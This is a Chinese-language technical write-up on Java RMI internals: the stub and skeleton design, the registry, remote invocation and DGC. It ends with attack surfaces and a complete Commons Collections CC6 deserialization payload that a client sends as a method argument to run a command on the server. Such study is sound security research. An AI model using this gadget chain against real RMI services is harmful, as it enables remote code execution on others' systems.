

# 0x01 What is RMI

`Remote Method Invocation` 远程方法调用。

* RMI为应用提供了远程调用的接口（Java的RPC框架）
* 实现RMI的协议叫JRMP
* RMI实现过程存在Java对象的传递，因此涉及到反序列化

# 0x02 Procedure Glance

两个概念：客户端存根（stubs）、服务端骨架（skeletons）

> 为屏蔽网络通信的复杂性，RMI引入两个概念，客户端存根Stub和服务端骨架Skeleton
>
> * 当Client试图调用一个远端的Object，实际调用的是客户端本地的一个代理类（就是Stub）
>
> * 调用Server的目标类之前，会经过一个远端代理类（就是Skeleton），它从Stub接收远程方法调用并传递给真正的目标类
> * Stub和Skeleton的调用对于RMI服务的使用者是隐藏的

所以整个RMI的流程大概为

1. 客户端调用Stub上的方法
2. Stub打包调用信息（方法名、参数），通过网络发送给Skeleton
3. Skeleton将Stub发来的信息解包，找到目标类和方法
4. 调用目标类的方法，并将结果返回给Skeleton
5. Skeleton将调用结果打包，发送给Stub
6. Stub解包并返回给调用者


代码规则

* 客户端和服务端都需定义用于远程调用的接口
* 接口必须继承`java.rmi.Remote`接口
* 接口中的方法都要抛出`java.rmi.RemoteException`异常
* 服务端创建远程接口实现类，实现接口定义的方法
* 实现类继承`java.rmi.server.UnicastRemoteObject`

📌服务端

创建用于远程调用的接口：

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface Hello extends Remote {
    String sayHello() throws RemoteException;
    String sayGoodbye() throws RemoteException;
}
```

接口实现类：

```java
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class RemoteHello extends UnicastRemoteObject implements Hello {

    public RemoteHello() throws RemoteException {
    }

    @Override
    public String sayHello() throws RemoteException {
        System.out.println("sayHello Called");
        return "Hello RMI";
    }

    @Override
    public String sayGoodbye() throws RemoteException {
        System.out.println("sayGoodbye Called");
        return "Bye";
    }
}
```

注册远程对象
使用`LocateRegistry#createRegistry()`来创建注册中心，`Registry#bind()`进行绑定

```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        RemoteHello remoteHello = new RemoteHello();
        Registry r = LocateRegistry.createRegistry(9999);
        System.out.println("Registry Started");
        r.bind("hello", remoteHello);
    }
}
```

📌客户端

同样客户端需要定义和服务端相同的远程接口，然后进行调用

`LocateRegistry#getRegistry()`连接注册中心，`Registry#lookup()`获取远程对象的存根，通过名称查找

```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Client {
    public static void main(String[] args) throws Exception {
        Registry r = LocateRegistry.getRegistry("127.0.0.1", 9999);
        Hello stub = (Hello) r.lookup("hello");
        System.out.println(stub.sayHello());
        System.out.println(stub.sayGoodbye());
    }
}
```


# 0x03 Deep Source

## 远程对象创建

`RemoteHello remoteHello = new RemoteHello();` 

该类继承了`UnicastRemoteObject`，构造时会到`UnicastRemoteObject`的构造方法


`exportObject()`顾名思义将这个远程对象导出


接着又创建了一个`UnicastServerRef`对象，这个对象存在多层封装，与网络连接有关，这里不分析


可以看到`LiveRef`中存在一些和网络有关的信息

接着进入`UnicastServerRef#exportObject`


存根Stub出现了！它是通过`sun.rmi.server.Util#createProxy()`创建的代理类，进去看`createProxy`的代码可以看到熟悉的`Proxy.newProxyInstance()`创建动态代理


返回stub之后，创建了一个`sun.rmi.transport.Target`对象，这个Target对象封装了远程执行的方法和生成的动态代理类Stub，再通过`LiveRef#exportObject`将target导出


`listen()`为stub开启随机端口，再`TCPTransport#exportObject`将target注册到`ObjectTable`中


最后target是被放入`objTable`和`implTable`中，从键`oe`、`weakImpl`可以看出，`ObjectTable`提供`ObjectEndpoint`和`Remote实例`两种方式来查找`Target`

## 注册中心创建

`Registry r = LocateRegistry.createRegistry(9999);`


传入端口号创建RegistryImpl


同样`LiveRef`对象与网络有关，接着调用`setup()`


依旧调用`UnicastServerRef#exportObject`，不过上面导出的是`UnicastRemoteObject`，这里导出的是`RegistryImpl`


同样的动态代理创建，不过这里还会进行`stubClassExists`的判断


获取要创建代理的类（这里是`RegistryImpl`）的名字前面加`_Stub`看是否存在，是存在的


接着`createStub`，通过反射实例化`RegistryImpl_Stub`实例对象


这个类有啥特殊呢？`RegistryImpl_Stub`是`Registry`的实现类，实现了`bind`、`list`、`lookup`、`rebind`、`unbind`等`Registry`定义的方法，这些方法的实现过程可以看到都用到了`readObject`、`writeObject`来实现的，即序列化和反序列化。

`createStub`之后进入`setSkeleton`


`Util.createSkeleton`方法创建skeleton


和`createStub`类似，通过反射实例化`RegistryImpl_Skel`

接下来的`export`和Target对象封装，放入objTable和远程对象创建一样


`put`之后objTable有三个值

* DGC垃圾回收
  
* 创建的远程对象：stub为动态代理对象，skel为null
  
* 注册中心：stub为`RegistryImpl_Stub`、skel为`RegistryImpl_Skel`
  

## 服务注册

`r.bind("hello", remoteHello);`


## 客户端请求注册中心-客户端

`Registry r = LocateRegistry.getRegistry("127.0.0.1", 9999);`


通过传入的host和port创建一个`LiveRef`用于网络请求，通过UnicastRef进行封装。然后和注册中心的逻辑相同，创建了一个`RegistryImpl_Stub`对象

接着通过`lookup`与注册中心通信，查找远程对象获取存根

`Hello stub = (Hello) r.lookup("hello");`

进入`RegistryImpl_Stub`的`lookup`


* 通过序列化将要查找的名称写入输出流
* 调用`UnicastRef`的invoke方法（invoke会调用`StreamRemoteCall#executeCall`，释放输出流）
* 获取输入流，将返回值进行反序列化，得到注册中心的动态代理Stub

## 客户端请求注册中心-注册中心

注册中心由`sun.rmi.transport.tcp.TCPTransport#handleMessages`来处理请求，进入serviceCall


进到dispatch方法，判断skel是否为空来区别Registry和Server


接着调用`RegistryImpl_Skel#dispatch`，根据opnum进行不同的处理


这里是`lookup`



从bindings中获取


获取完后将序列化的值传过去

## 客户端请求服务端-客户端

`stub.sayHello()`

客户端调用服务端远程对象，记得Stub是动态代理类

`RemoteObjectInvocationHandler#invoke`


`invokeRemoteMethod`中实际委托`RemoteRef`的子类`UnicastRef#invoke`来执行

`UnicastRef`的`LiveRef`属性包含`Endpoint`、`Channel`封装与网络通信有关的方法


若方法有参数，调用`marshalValue`将参数写入输出流

接着调用`executeCall`


通过`releaseOutputStream()`释放输出流


executeCall之后接受返回的输入流，通过`unmarshalValue()`去反序列化接收返回值

## 客户端请求服务端-服务端

和`客户端请求注册中心-注册中心`类似，`sun.rmi.transport.tcp.TCPTransport#handleMessages`

到`UnicastServer#dispatch()`


获取method名称，`unmarshalValue`反序列化传入的参数


释放输入流后，调用`Method#invoke`，到这终于算远程方法调用到了


接着通过`marshalValue`序列化方法调用的返回结果

## DGC

服务端通过`ObjectTable#putTarget`将注册的远程对象put到`objTable`中，里面有默认的`DGCImpl`对象


DGCImpl的设计是单例模式，这个类是RMI的分布式垃圾处理类。和注册中心类似，也有对应的`DGCImpl_Stub`和`DGCImpl_Skel`，同样类似注册中心，客户端本地也会生成一个`DGCImpl_Stub`，并调用`DGCImpl_Stub#dirty`


* invoke => UnicastRef#invoke => executeCall()  => readObject()
* 获取输入流、readObject

服务端：handleMessages => UnicastServerRef#dispatch => oldDispatch

最后进入`DGCImpl_Skel#dispatch`


两个case分支都有readObject

# 0x03 Way To Attack

1. 攻击客户端
   * RegistryImp_Stub#lockup   注册中心
   * DGCImpl_Stub#dirty    服务端
   * UnicastRef#invoke    服务端
   * StreamRemoteCall#executeCall   注册中心
2. 攻击服务端
   * UnicastServerRef#dispatch  客户端
   * DGCImpl_Skel#dispatch    客户端
3. 攻击注册中心
   * RegistryImp_Skel#dispatch   客户端

## 客户端攻击服务端

服务端：UnicastServer#dispatch 调用了`unmarshalValue`来反序列化客户端传来的远程方法参数

* 若远程方法接收Object，客户端将参数设为payload即可(下面使用CC6)

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface Hello extends Remote {
    String sayHello(Object name) throws RemoteException;
}
```

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class Client {
    public static void main(String[] args) throws Exception {
        Registry r = LocateRegistry.getRegistry("127.0.0.1", 9999);
        Hello stub = (Hello) r.lookup("hello");
        stub.sayHello(getPayload());
    }

    public static Object getPayload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "xxx");

        lazyMap.remove("test");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        return expMap;
    }

}
```


RMI核心特点之一就是动态加载类，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，java.rmi.server.codebase属性值表示一个或多个URL位置，可以从中下载本地找不到的类，相当于一个代码库。动态加载的对象class文件可以使用Web服务的方式（如http://、ftp://、file://）进行托管。客户端使用了与RMI注册表相同的机制。RMI服务端将URL传递给客户端，客户端通过HTTP请求下载这些类。

无论是客户端还是服务端要远程加载类，都需要满足以下条件：

- 由于Java SecurityManager的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要安装RMISecurityManager并且配置java.security.policy，这在后面的利用中可以看到。
- 属性 java.rmi.server.useCodebaseOnly 的值必需为false。但是从 **JDK 6u45、7u21** 开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前虚拟机的java.rmi.server.codebase 指定路径加载类文件。使用这个属性来防止虚拟机从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

